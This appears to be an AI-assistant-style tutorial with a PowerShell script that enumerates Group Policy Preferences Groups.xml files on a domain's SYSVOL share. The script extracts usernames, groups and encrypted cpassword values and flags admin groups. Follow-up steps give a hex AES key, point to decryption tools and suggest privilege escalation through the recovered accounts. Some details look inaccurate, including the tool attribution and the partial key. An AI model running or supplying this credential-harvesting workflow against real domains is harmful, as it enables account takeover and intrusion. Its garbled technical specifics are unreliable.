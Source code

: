 
To read and extract interesting information from the **Groups.xml** file in Active Directory, which is often generated by **Group Policy Preferences** (GPP) settings, you can write a PowerShell script to parse the XML and enumerate sensitive details like usernames, groups, and possibly hardcoded passwords (if the file is poorly configured).

The **Groups.xml** file is commonly found in the following Group Policy directory on domain controllers:

```
\\<domain>\SYSVOL\<domain>\Policies\{GUID}\Machine\Preferences\Groups\Groups.xml
```

In older configurations, the **Groups.xml** file might store **passwords** for administrative accounts in **AES-encrypted** format (although Microsoft has patched this issue, it still might be found in legacy setups).

Here’s how you can create a PowerShell script to:

1. Locate and read the **Groups.xml** file.
2. Parse the XML structure.
3. Extract useful information, such as usernames, group names, and (potentially) AES-encrypted passwords.

### **PowerShell Script to Parse Groups.xml**

```powershell
# Define the path to the Groups.xml file. This may need to be adjusted to match your domain structure
$gppFilePath = "\\domain\SYSVOL\domain\Policies\{GUID}\Machine\Preferences\Groups\Groups.xml"

# Check if the file exists
if (Test-Path $gppFilePath) {
    Write-Host "Found Groups.xml file at: $gppFilePath"
} else {
    Write-Host "Groups.xml file not found at the specified path: $gppFilePath"
    exit
}

# Load the XML file
$xml = [xml](Get-Content $gppFilePath)

# Loop through each 'Group' entry in the XML
foreach ($group in $xml.Groups.Group) {
    Write-Host "Enumerating Group: $($group.name)"

    # Extract the interesting fields from the XML
    $userName = $group.User.name
    $groupName = $group.GroupName
    $password = $group.User.Properties.cpassword  # AES-encrypted password

    Write-Host "`tUser: $userName"
    Write-Host "`tGroup: $groupName"

    # If a password exists, check for encrypted data
    if ($password) {
        Write-Host "`tEncrypted Password Found: $password"
    } else {
        Write-Host "`tNo password field found."
    }

    # Check if the group is an administrative group or other high-value target
    if ($groupName -like "*Admins*") {
        Write-Host "`t[!] Group is an Admin group! Check permissions and accounts closely."
    }

    Write-Host "`n"  # Newline for readability
}

# Inform the user that enumeration is complete
Write-Host "Groups.xml enumeration complete."
```

### **What This Script Does:**
1. **Checks for the presence** of the `Groups.xml` file in the `SYSVOL` share on the domain controller.
2. **Reads the XML data** into a variable and iterates through each group object defined in the file.
3. **Extracts important fields**:
   - **User names**: Users assigned to the groups.
   - **Group names**: The groups being defined.
   - **Encrypted passwords**: If present, these may be AES-encrypted passwords for users (in older systems).
4. **Identifies Admin groups**: If a group is identified as an admin-level group (e.g., containing "Admins" in the name), it is flagged as potentially sensitive.

---

### **Explaining the Key Fields:**
- **$group.User.name**: Contains the name of the user associated with the group.
- **$group.GroupName**: The name of the group the user is associated with.
- **$group.User.Properties.cpassword**: If present, this field contains the AES-encrypted password. This was a vulnerability in older systems but could still exist in legacy systems.

---

### **Example Output:**

```
Found Groups.xml file at: \\domain\SYSVOL\domain\Policies\{GUID}\Machine\Preferences\Groups\Groups.xml
Enumerating Group: Local Admins
        User: AdminUser
        Group: Administrators
        Encrypted Password Found: d81bca967e45b...
        [!] Group is an Admin group! Check permissions and accounts closely.

Enumerating Group: Backup Operators
        User: BackupUser
        Group: Backup Operators
        No password field found.

Groups.xml enumeration complete.
```

### **Potential Post-Enumeration Steps:**
1. **Decrypting AES-encrypted passwords**: If an AES-encrypted password is found (the `cpassword` field), you can use existing tools like **gpp-decrypt** (part of `mimikatz` or other tools) to decrypt the password if the key has not been changed.
   
   The AES key used by Microsoft for encrypting these passwords is public knowledge:
   ```
   4e 99 06 e8 fc b6 6c c9 fa f4 93 10 62 0f fe e8
   ```
   
2. **Privilege Escalation**: If you find an administrative group with a user who has a weak password, you might be able to escalate privileges by gaining access to that account.

---

### **Enhancements for Larger Environments:**
- **Search Multiple Policies**: In larger environments, you might need to search multiple **GUIDs** within the Group Policy path for multiple instances of `Groups.xml`.
- **Automated Password Decryption**: You could extend the script to attempt decryption of the `cpassword` field automatically (with proper ethical considerations and permissions).

